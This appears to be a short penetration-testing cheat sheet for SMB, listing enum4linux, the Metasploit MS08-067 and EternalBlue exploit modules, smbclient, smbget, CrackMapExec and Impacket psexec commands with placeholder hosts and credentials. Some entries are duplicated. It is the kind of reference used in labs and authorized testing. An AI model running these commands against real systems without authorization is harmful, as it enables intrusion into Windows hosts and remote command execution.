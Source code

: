 ```bash
enum4linux -a <IP>
```

### SMB Exploitation

#### Metasploit

```bash
use exploit/windows/smb/ms08_067_netapi
```

#### EternalBlue

```bash
use exploit/windows/smb/ms17_010_eternalblue
```

#### smbclient

```bash
smbclient //<IP>/share
```

#### smbget

```bash
smbget -R smb://<IP>/share
```

#### smbclient

```bash
smbclient //<IP>/share -U <username>
```

#### CrackMapExec

```bash
crackmapexec smb <IP>
```

#### Impacket

```bash
smbclient.py <IP>/<share> -u <username> -p <password>
```

#### Psexec

```bash
psexec.py <username>:<password>@<IP>
```

#### PsExec

```bash
psexec.py <username>:<password>@<IP>
```
